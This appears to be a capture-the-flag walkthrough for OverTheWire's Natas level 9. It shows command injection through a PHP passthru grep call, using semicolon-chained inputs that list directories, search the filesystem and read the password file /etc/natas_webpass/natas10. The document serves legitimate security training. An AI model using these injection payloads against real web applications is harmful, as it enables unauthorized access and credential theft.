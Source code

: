 # Natas Level 9
1. URL: http://natas9.natas.labs.overthewire.org

## Objective
1. Gain access to the password for natas10.

Procedure:
1. Open the website and inspect the PHP source code.
![SourceCode](images/level_09_02.png)

1. In the source code, notice the vulnerable       passthru function:
    - `passthru("grep -i $key dictionary.txt");`
    - Realize that you can inject your own commands by exploiting this vulnerability.

1.  Find the current directory by searching for
    - `zzz; pwd; ls `
![PWD](images/level_09_03.png)

1. Explanation
    - The reulting query from the above seach string is
    - `grep -i zzz; pwd; ls dictionary.txt`
    - We are using the semicolon to separate different commands
    - We are using `zzz` to make sure grep returns no result
    - `pwd` to print the current working directory
    - `ls` to list the dictionary.txt so that we don't have the word dictionary.txt hanging on its own at the end of the command which could cause the command to fail

1. Use the find command to find any file related to natas10 `zzz; find / -type f -name natas10 2>/dev/null; ls`
    > Output: <br>
    > /etc/natas_webpass/natas10
    > dictionary.txt <br>


1. Search for `zzz; cat /etc/natas_webpass/natas10; ls` to print the contents of .httpasswd
    - Output: <br>
    > [natas_10_password] <br> 
    > dictionary.txt <br>

<br>
<br>
* PS: Just using the semicolon and the command can also works in some situations

    > `; cat /etc/natas_webpass/natas10`
    > 
    > Output: <br>
    > [natas_10_password] <br>
    > 
    > African <br>
    > Africans  <br>
    > Allah  <br>
    > .....
